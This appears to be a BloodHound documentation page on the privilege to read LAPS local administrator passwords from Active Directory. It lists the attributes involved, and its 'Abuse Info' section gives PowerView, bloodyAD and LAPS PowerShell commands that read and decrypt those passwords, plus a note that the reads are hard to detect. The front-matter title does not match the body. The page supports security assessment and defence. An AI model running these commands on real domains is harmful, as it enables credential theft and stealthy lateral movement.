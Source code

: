 ```yaml
---
title: Working with the BloodHound API
---
```


<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



This privilege allows a principal to read the LAPS password from a computer.

For systems using legacy LAPS, the following AD computer object properties are relevant:

* **ms-Mcs-AdmPwd**: The plaintext LAPS password
* **ms-Mcs-AdmPwdExpirationTime**: The LAPS password expiration time

For systems using Windows LAPS (2023 edition), the following AD computer object properties are relevant:

* **msLAPS-Password**: The plaintext LAPS password
* **msLAPS-PasswordExpirationTime**: The LAPS password expiration time
* **msLAPS-EncryptedPassword**: The encrypted LAPS password
* **msLAPS-EncryptedPasswordHistory**: The encrypted LAPS password history
* **msLAPS-EncryptedDSRMPassword**: The encrypted Directory Services Restore Mode (DSRM) password
* **msLAPS-EncryptedDSRMPasswordHistory**: The encrypted DSRM password history

Abuse Info[](#h_01JF7GFQDMTP3E7C81G2M07PSF)
-------------------------------------------

 Plaintext attributes can be read using a simple LDAP client. For example, with PowerView:
```
Get-DomainComputer "MachineName" -Properties "cn","ms-mcs-admpwd","ms-mcs-admpwdexpirationtime"
```
 On Linux, using bloodyAD:
```
bloodyAD --host $DC_IP -d $DOMAIN -u $USER -p $PASSWORD get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
 Encrypted attributes can be decrypted using Microsoft's LAPS PowerShell module. For example:
```
Get-LapsADPassword "WIN10" -AsPlainText
```
The encrypted attributes can also be retrieved and decrypted using [lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt) (dotnet or BOF).

Opsec Considerations[](#h_01JF7GFQDMGRVY148EE69BHVVE)
-----------------------------------------------------

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

References[](#h_01JF7GFQDMQX77QWZYKHS16G0B)
-------------------------------------------

* [https://www.specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)
* [https://adsecurity.org/?p=3164](https://adsecurity.org/?p=3164)
* [https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword)
* [https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt)
* [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)
